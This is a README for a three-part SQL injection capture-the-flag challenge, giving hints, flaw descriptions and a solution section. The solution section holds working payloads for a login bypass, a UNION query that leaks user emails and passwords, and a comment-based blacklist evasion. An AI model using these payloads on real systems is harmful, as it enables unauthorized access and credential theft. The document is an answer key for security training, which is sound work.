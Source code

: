 # Scrabble Quick Locator Interactive

## Challenges
1. `Scrabble Quick Locator Interactive 1`
   - Description: `Bypass the login and get the flag!`
   - Hint: `I love SQLI! Such a nice website!`
2. `Scrabble Quick Locator Interactive 2`
   - Description: `Find the original users's password!`
   - Hint: `Perhaps a UNION of techniques is needed...`
3. `Scrabble Quick Locator Interactive 2`
   - Description: `Find the result of the match in matches.php`
   - Hint: `A blacklist? Nothing can stop a true hacker! May the OWASP be with you!`

## Challenges Specifics
1. Simple SQLi in Login
2. SQLi + union in WordSearch to leak users table
3. SQLi + blacklist to leak result field

## Solution
1. login.php => `' or 1=1 #`
2. index.php => `' union select email, pass from users #`
3. matches.php => `'/**/union/**/select/**/result,p1,p2/**/from/**/matches/**/#`
